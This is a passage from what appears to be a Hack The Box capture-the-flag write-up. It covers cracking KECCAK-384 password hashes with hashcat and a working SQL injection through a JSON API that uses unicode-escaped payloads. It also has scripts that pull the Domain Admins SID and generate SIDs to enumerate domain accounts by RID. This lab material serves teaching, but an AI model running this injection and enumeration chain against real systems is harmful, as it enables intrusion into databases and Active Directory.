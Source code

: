 There are four unique hashes and they turned out to be KECCAK-384 hashes. What a plot twist! Anyway, `hashcat` is able to crack these hashes with a wordlist such as rockyou pretty fast.

```
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739:password1
68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813:finance1
fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa:banking1
```

Now what?

### Enumerate Domain Acccounts with SQL

Taking a leaf from this [article](https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/), I wrote the following shell script to facilitate querying the SQL server to enumerate for domain accounts.

<div class="filename"><span>exploit.sh</span></div>

```shell
#!/bin/bash

HOST=megacorp.local
URL="http://${HOST}/api/getColleagues"

if [ "$1" == "-e" ]; then
    PAYLOAD="$(echo -ne $2 | xxd -p | tr -d '\n' | sed -r 's/(..)/\\u00\1/g')"
else
    PAYLOAD=$1
fi

curl -s \
     -d "{\"name\":\"${PAYLOAD}\"}" \
     -H "Content-Type: application/json" \
     ${URL}
```

And because the `SUSER_SID('MEGACORP\\Domain Admins')` returns a `VARBINARY`, I'd to `CONVERT` it to `VARCHAR` like so.

```
# ./exploit.sh -e "-1' UNION SELECT 1,CONVERT(VARCHAR(MAX), SUSER_SID('MEGACORP\\Domain Admins'),1),3,4,5-- -" | jq .[].name
"0x0105000000000005150000001C00D1BCD181F1492BDFC23600020000"
```

The SID remains constant, which is 48 characters after `0x`. Armed with this information, I wrote the following python script to generate all the SIDs for RIDs from 500 to 10000 in the format above. The output of this script will be fed to the shell script above.

<div class="filename"><span>generate_sids.py</span></div>

```python
import struct
import sys

sid = "0x0105000000000005150000001C00D1BCD181F1492BDFC23600020000"
min_rid = int(sys.argv[1])
max_rid = int(sys.argv[2]) + 1


for rid in range(min_rid, max_rid):
    print sid[:50] + struct.pack("<i", rid).encode("hex")
```


[1]: https://www.hackthebox.eu/home/machines/profile/232
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu/home/users/profile/8308
[4]: https://www.hackthebox.eu/